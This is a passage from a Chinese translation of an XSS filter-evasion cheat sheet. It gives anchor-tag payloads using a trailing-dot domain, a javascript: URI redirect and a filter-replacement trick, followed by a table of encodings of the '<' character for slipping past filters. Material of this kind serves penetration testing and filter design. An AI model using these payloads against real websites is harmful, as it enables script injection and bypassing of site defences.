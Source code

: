 


### **2.84.12.      绝对DNS名称后额外的点**


<A HREF="<http://www.google.com./>">XSS</A>


### **2.84.13.      JavaScriptlink location**


<A HREF="javascript:document.location='<http://www.google.com/>'">XSS</A>




### **2.84.14.      内容替换作为攻击向量**

假设"<http://www.google.com/>"会自动替换为空。我实际使用过类似的攻击向量即通过使用转换过滤器本身（示例如下）来帮助构建攻击向量以对抗现实世界的XSS过滤器:


<A HREF="<http://www.google.com/ogle.com/>">XSS</A>




### 2.85.    字符转义表

下面是HTML和JavaScript中字符“<”的所有可能组合。其中大部分不会被渲染出来，但其中许多可以在某些情况下呈现出来。：


<

%3C

&lt



&LT



&#60

&#060

&#0060

&#00060

&#000060

&#0000060

&#60;

&#060;

&#0060;

&#00060;

&#000060;

&#0000060;
